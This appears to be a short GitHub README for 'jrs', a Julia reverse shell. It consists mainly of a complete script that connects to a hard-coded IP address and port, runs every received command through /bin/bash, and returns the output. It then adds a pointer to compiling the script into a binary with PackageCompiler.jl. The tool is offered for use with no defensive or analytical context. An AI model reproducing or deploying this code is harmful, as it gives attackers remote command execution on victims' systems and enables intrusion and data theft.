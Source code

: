 # jrs

julia reverse shell

https://julialang.org/

```
using Sockets

c = connect("192.168.8.139", 9090);
while true
   cmd = readline(c, keep=true);
   try
      println(c, read(`/bin/bash -c $cmd`, String));
   catch e
      print(c, e)
   end
end
```

**Compile**

https://github.com/JuliaLang/PackageCompiler.jl

Enjoy~
